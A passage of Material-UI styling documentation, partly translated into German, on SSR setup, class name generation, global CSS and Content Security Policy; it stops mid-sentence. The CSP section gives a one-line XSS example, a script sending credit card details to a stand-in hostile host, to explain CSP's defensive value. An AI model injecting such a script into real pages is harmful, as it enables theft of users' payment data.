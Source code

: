 [an official Gatsby plugin](https://github.com/hupe1980/gatsby-plugin-material-ui) that enables server-side rendering for `@material-ui/styles`. Anleitungen zur Einrichtung und Verwendung finden Sie auf der Seite des Plugins.\n\nRefer to [this example Gatsby project](https://github.com/Foso/material-ui/blob/master/examples/gatsby) for an up-to-date usage example.\n\n### Next.js\n\nSie müssen über eine benutzerdefiniertes `pages/_document.js` haben und [diese Logik](https://github.com/Foso/material-ui/blob/master/examples/nextjs/pages/_document.js) kopieren, um die serverseitig gerenderten Stile in das `<head>` Element hinzuzufügen.\n\nSiehe [dieses Beispielprojekt](https://github.com/Foso/material-ui/blob/master/examples/nextjs) für ein aktuelles Verwendungsbeispiel.\n\n## Klassennamen\n\nDie Klassennamen werden von dem [Klassennamengenerator](/styles/api/#creategenerateclassname-options-class-name-generator) generiert. Nehmen wir den folgenden Stil als Beispiel.\n\n### Standard\n\nBy default, the class names generated by `@material-ui/core/styles` are **non-deterministic**; you can't rely on them to stay the same. Nehmen wir den folgenden Stil als Beispiel:\n\n```js\nconst useStyles = makeStyles({\n  root: {\n    opacity: 1,\n  },\n});\n```\n\nDadurch wird ein Klassenname wie `makeStyles-root-123` generiert.\n\nSie müssen die `Klassen` Eigenschaft einer Komponente verwenden, um die Styles zu überschreiben. Die nicht deterministische Natur der Klassennamen ermöglicht die Stilisolation.\n\n- In der **Entwicklung** lauten der Klassenname: `.makeStyles-root-123` nach dieser Logik:\n\n```js\nconst sheetName = 'makeStyles';\nconst ruleName = 'root';\nconst identifier = 123;\n\nconst className = `${sheetName}-${ruleName}-${identifier}`;\n```\n\n- In der **Produktion** lauten der Klassenname: `.jss123` nach dieser Logik:\n\n```js\nconst productionPrefix = 'jss';\nconst identifier = 123;\n\nconst className = `${productionPrefix}-${identifier}`;\n```\n\n### Mit `@material-ui/core`\n\nDie generierten Klassennamen der `@material-ui/core` Komponenten verhalten sich anders. Wenn die folgenden Bedingungen erfüllt sind, sind die Klassennamen **deterministisch**:\n\n- Es wird nur ein Themeanbieter verwendet (**Keine Verschachtelung von Themes**)\n- The style sheet has a name that starts with `Mui` (all Material-UI components).\n- The `disableGlobal` option of the [class name generator](/styles/api/#creategenerateclassname-options-class-name-generator) is `false` (the default).\n\nDiese Bedingungen werden bei den häufigsten Anwendungsfällen von `@material-ui/core` erfüllt. Zum Beispiel dieses Stylesheet:\n\n```jsx\nconst useStyles = makeStyles({\n  root: { /* … */ },\n  label: { /* … */ },\n  outlined: {\n    /* … */\n    '&$disabled': { /* … */ },\n  },\n  outlinedPrimary: {\n    /* … */\n    '&:hover': { /* … */ },\n  },\n  disabled: {},\n}, { name: 'MuiButton' });\n```\n\ngeneriert die folgenden Klassennamen, die Sie überschreiben können:\n\n```css\n.MuiButton-root { /* … */ }\n.MuiButton-label { /* … */ }\n.MuiButton-outlined { /* … */ }\n.MuiButton-outlined.Mui-disabled { /* … */ }\n.MuiButton-outlinedPrimary: { /* … */ }\n.MuiButton-outlinedPrimary:hover { /* … */ }\n```\n\n*Dies ist eine Vereinfachung des `@material-ui/core/Button` Stylesheet der Komponente.*\n\nDie Anpassung des TextFields kann mit der [ `classes-`API ](#overriding-styles-classes-prop) mühsam sein, wo Sie die classes Eingenschaft definieren müssen. Die Standardwerte sind, wie oben beschrieben, einfacher zu verwenden. Zum Beispiel:\n\n```jsx\nimport styled from 'styled-components';\nimport { TextField } from '@material-ui/core';\n\nconst StyledTextField = styled(TextField)`\n  label.focused {\n    color: green; 💚\n  }\n  .MuiOutlinedInput-root {\n    fieldset {\n      border-color: red; 💔\n    }\n    &:hover fieldset {\n      border-color: yellow; 💛\n    }\n    &.Mui-focused fieldset {\n      border-color: green; 💚\n    }\n  }\n`;\n```\n\n{{\"demo\": \"pages/styles/advanced/GlobalClassName.js\"}}\n\n## Globales CSS\n\n### `jss-plugin-global`\n\nDas [`jss-plugin-global`](#jss-plugins) Plugin ist in der Standardvoreinstellung installiert. Sie können es verwenden, um globale Klassennamen zu definieren.\n\n{{\"demo\": \"pages/styles/advanced/GlobalCss.js\"}}\n\n### Hybrid\n\nSie können auch JSS-generierte Klassennamen mit globalen Namen kombinieren.\n\n{{\"demo\": \"pages/styles/advanced/HybridGlobalCss.js\"}}\n\n## CSS-Präfix\n\nJSS verwendet Featureerkennung, um die korrekten Präfixe anzuwenden. [Seien Sie nicht überrascht](https://github.com/Foso/material-ui/issues/9293) wenn Sie in der neuesten Version von Chrome kein bestimmtes Präfix sehen können. Ihr Browser benötigt es wahrscheinlich nicht.\n\n## Inhaltssicherheitsrichtlinie (Content Security Policy, CSP)\n\n### Was ist CSP und warum ist es nützlich?\n\nGrundsätzlich verringert CSP Cross-Site Scripting (XSS)-Angriffe, indem Entwickler die Quellen angeben, aus denen ihre Assets abgerufen werden. Diese Liste wird vom Server als Header zurückgegeben. Angenommen, Sie haben eine Website unter `https://example.com` gehostet. Der CSP-Header `default-src: 'self';` erlaubt alle Assets, die sich unter `https://example.com/*` befinden und blockt alle anderen. Wenn es auf Ihrer Website einen für XSS anfälligen Bereich gibt, in dem nicht eingegebene Benutzereingaben angezeigt werden, könnte ein Angreifer Folgendes eingeben:\n\n```html\n<script>\n  sendCreditCardDetails('https://hostile.example');\n</script>\n```\n\nDiese Sicherheitsanfälligkeit ermöglicht es dem Angreifer, irgendetwas auszuführen. Mit einem sicheren CSP-Header lädt der Browser dieses Skript jedoch nicht.\n\nWeitere Informationen zu CSP finden Sie in den [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).\n\n### Wie kann man CSP implementieren?\n\nUm CSP mit Material-UI (und JSS) verwenden zu können, müssen Sie eine Nonce verwenden. Eine